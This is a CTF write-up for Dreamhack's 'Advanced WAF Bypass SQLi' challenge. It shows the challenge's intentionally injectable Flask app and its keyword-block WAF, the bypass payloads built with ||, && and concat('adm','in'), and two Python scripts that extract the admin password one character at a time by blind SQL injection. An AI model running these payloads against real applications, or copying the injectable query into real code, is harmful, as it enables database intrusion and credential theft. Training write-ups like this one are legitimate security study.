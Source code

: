 ```yaml
---
title: 'Dreamhack Advanced WAF Bypass SQLI'
description: 'ctf writeup'
pubDate: 'apr 25 2024'
heroImage: '/mickey.jpeg'
pinned: false
---
```


> Challenge Name : Advanced WAF Bypass SQLi

- The challenge source code is given below

```
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/', 
            '\n', '\r', '\t', '\x0b', '\x0c', '-', '+']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data.lower():
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

- This challenge is advanced version of the previous challenge <code>`WAF bypass SQLI`</code>,The user input here is lower casted before checking into the check_WAF function.

- At first i tried basic concatenation [OR Operator] and it worked with <code>`'||1=1#` `'||1=0#`</code>

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/work.png)

- Then i tried with <code>`'||length(upw)={length}#`</code> , i got success in calculating the length, like if the length is valid,the server will respond the uid but it seems if founded the upw of abcde which is a different user.

- Then started struggling with the idea of how to supply the admin uid, meanwhile i understood the exploitation part will require blind injection.

- The idea came in to use the [AND operator] && <code>`'||(uid='guest'&&length(upw)=5)#`</code>

- It worked and the responded with the uid guest.

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/length.png)

- Now we can use concat function to supply admin value in uid <code>`concat('adm','in)`</code>, We also know that the flag value is stored in admin upw and starts with 'D' since the flag format is 'DH{.*}'.

- I supplied the payload <code>`'||(uid=concat('adm','in')&&substr(upw,1,1)='D')#` and yesss! we recieved the response uid as admin which means we succceded!

- Now our idea is to  find the length of upw and below is the script i created that will help us to find the length!



```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"


length = 0

while True:
	payload = f"'||(uid=concat('adm','in')&&length(upw)={length})#"
	encoded_payload = urllib.parse.quote(payload)

	print(f"Trying length {length}")
	data = requests.get(f"{host}/?uid={encoded_payload}")
	if "admin" in data.text:
		break
	else:
		length=length+1

print(f"Admin upw length is {length}")
```
![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/length_script.png)

• The length of upw is 44 and now we can bruteforce each character and find the flag.

```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"

charSet = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'

length=44
pos=0
flag=''
for i in range(0,45):
	pos= pos+1
	for j in charSet:
		payload = f"'||(uid=concat('adm','in')&&substr(upw,{i},1)='{j}')#"
		encoded_payload = urllib.parse.quote(payload)
		data = requests.get(f"{host}/?uid={encoded_payload}")
		if "admin" in data.text:
			print(f"found character {j} in position {i}")
			flag = flag+j
			break

print(f"Flag : {flag}")
```

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/adv_flag.png)

- Thanks.